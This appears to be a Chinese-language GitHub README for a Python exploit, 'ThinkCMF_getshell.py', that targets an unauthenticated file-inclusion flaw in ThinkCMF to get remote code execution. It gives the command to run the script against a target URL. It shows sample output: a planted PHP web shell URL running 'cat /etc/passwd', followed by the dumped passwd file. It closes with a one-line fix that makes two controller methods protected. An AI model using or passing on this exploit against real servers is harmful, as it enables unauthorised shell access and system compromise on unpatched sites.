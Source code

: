 # ThinkCMF_getshell 框架上的任意内容包含漏洞

远程攻击者在无需任何权限情况下，通过构造特定的请求包即可在远程服务器上执行任意代码。

![](./fofa.jpg)
![](./ThinkCMF_getshell.jpg)

## python usage:

`[+] python ThinkCMF_getshell.py http://x.x.x.x/`

```
python ThinkCMF_getshell.py https://x.x.x.x/
nginx
PHP/7.0.19

>>>>>>>Shell url:
https://x.x.x.x/0a30e0d61182dbb7c1eed5135787fb84.php?cmd=cat /etc/passwd


root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:997:User for polkitd:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
saslauth:x:997:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
www:x:1000:1000::/home/www:/sbin/nologin
mysql:x:1001:1001::/home/mysql:/sbin/nologin

```
## 修复方法
将 
`HomebaseController.class.php` 和 `AdminbaseController.class.php` 类中 `display` 和 `fetch` 函数的修饰符改为 `protected`

